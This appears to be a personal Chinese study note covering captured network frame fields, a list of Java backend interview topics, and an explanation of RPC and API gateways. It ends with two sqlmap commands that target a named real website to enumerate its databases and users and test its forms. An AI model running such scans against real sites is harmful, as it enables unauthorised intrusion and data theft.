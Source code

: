 
|   字段   |        帧1         |        帧2         |
| :----: | :---------------: | :---------------: |
|   协议   |       HTTP        |        TCP        |
| 目的MAC  | 90:23:b4:69:d8:02 | 1c:69:7a:54:6d:e6 |
| 源MAC地址 | 1c:69:7a:54:6d:e6 | 90:23:b4:69:d8:02 |
|   类型   |       IPv4        |       IPv4        |
|  帧总长   |     780 bytes     |    1514 bytes     |

---

- nginx 鉴权
- ResponseEntity

- 面试
	- jvm
	- 多线程
	- 锁
	- 并发
- netty（不是很必要）
- **linux**
- **设计模式**
- **微服务**
- **消息队列**
	- rabbitMQ
		- 生产消费模型
		- 交换机模型
		- 死信队列
		- 延迟队列
		- 消息持久化
		- Java 操作
		- 集群搭建
- **redis**
- **nginx**
- 并发编程
- 分布式
- Junit 单元测试
- Apache utils
- easy excel
- hutool
- Mybatis Plus

通过<u> RPC 技术</u>【一种进程间的通信方式，它实现了轻松地允许一个进程调用另一个进程的服务】与微服务之间的远程调用，以及 <u>API 网关</u>【一种设计风格和架构原则，用于创建可伸缩、轻量级、可维护和可扩展的网络服务，它承接http请求，调用RPC服务，并负责对外部请求的协议转换、参数校验、鉴权、切量、熔断、限流、监控、风控等各类共性的通用服务】作为统一的入口和管理中心，来实现对MVC架构的替代


```bash
python sqlmap.py -u "https://www.bo-re-tech.cn/cn/index.html" -f --banner --dbs --users
```

```
python sqlmap.py -u "https://www.bo-re-tech.cn/cn/index.html" -f --banner --dbs --users --forms --crawl=2
```
